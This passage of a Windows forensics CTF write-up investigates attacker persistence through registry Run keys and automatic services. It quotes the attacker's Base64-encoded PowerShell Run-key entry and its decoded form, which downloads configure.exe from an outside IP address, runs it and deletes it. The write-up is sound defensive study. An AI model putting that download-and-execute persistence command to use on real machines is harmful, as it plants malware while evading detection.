 ![screenshot10](/Blizzard/assets/screenshot10.png)

and reveal its content

![screenshot11](/Blizzard/assets/screenshot11.png)

>Where did the attacker store a persistent implant in the registry? Provide the registry value name.

Two [keys contain programs](https://learn.microsoft.com/pl-pl/windows/win32/setupapi/run-and-runonce-registry-keys) that run every time a user logs on:

* HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
* HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run

The file for the former is located at `C:\Windows\System32\config\SOFTWARE`, for the latter at `C:\Users\<USER>\NTUSER.DAT`. But we don't need to look for these files, which in a live system are locked by the OS, manually, since `Registry Explorer` imports them at the click of a button.

![screenshot12](/Blizzard/assets/screenshot12.png)

There we have it, this

![screenshot13](/Blizzard/assets/screenshot13.png)

```
powershell.exe -enc aQB3AHIAIAAtAHUAcwBlAGIAIABoAHQAdABwADoALwAvADEAMgA4AC4AMQA5ADkALgAyADQANwAuADEANwAzAC8AYwBvAG4AZgBpAGcAdQByAGUALgBlAHgAZQAgAC0AbwB1AHQAZgBpAGwAZQAgACQAZQBuAHYAOgBhAHAAcABkAGEAdABhAFwAYwBvAG4AZgBpAGcAdQByAGUALgBlAHgAZQA7ACAAUwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgACQAZQBuAHYAOgBhAHAAcABkAGEAdABhAFwAYwBvAG4AZgBpAGcAdQByAGUALgBlAHgAZQA7ACAAcgBtACAAJABlAG4AdgA6AGEAcABwAGQAYQB0AGEAXABjAG8AbgBmAGkAZwB1AHIAZQAuAGUAeABlAA==
```
is run every time a user logs in. The key's `Value Name` is the flag. The task doesn't ask for it, but the `-enc` option lets you feed Powershell with Base64 (crucial for decoding: using the UTF-16LE character set) encoded commands. This can be used in an attempt to evade detection as seen here. The decoded command

```
iwr -useb http://128.199.247.173/configure.exe -outfile $env:appdata\configure.exe; Start-Process $env:appdata\configure.exe; rm $env:appdata\configure.exe
```
downloads `configure.exe` from a remote host, executes it, and then deletes it again.

>Aside from the registry implant, another persistent implant is stored within the machine. When did the attacker implant the alternative backdoor? (format: MM/DD/YYYY HH:MM:SS)

I am sure there is a more efficient way (that's probably true for other things I did, as I'm new to Windows forensics), but after having ruled out Scheduled Tasks, I adapted a Powershell script from [another THM room](https://tryhackme.com/r/room/windowsapplications) to enumerate services

```powershell
$services = Get-Service | Where-Object {$_.StartType -eq "Automatic"}
foreach ($service in $services) {                                                        
    $serviceName = $service.Name                                                           
    $serviceWMI = (Get-WmiObject Win32_Service | Where-Object { $_.Name -eq $serviceName})      
    $servicePath = $serviceWMI.PathName
    Write-Host "Service Name: $serviceName"
    Write-Host "Executable Path: $servicePath"
    Write-Host "--------------------"
}
```
The code first retrieves all services that are configured to start automatically when the system starts, then prints relevant information on the screen for me to manually filter. The output only being a couple of dozen lines long, one service immediately stood out while the script was still running
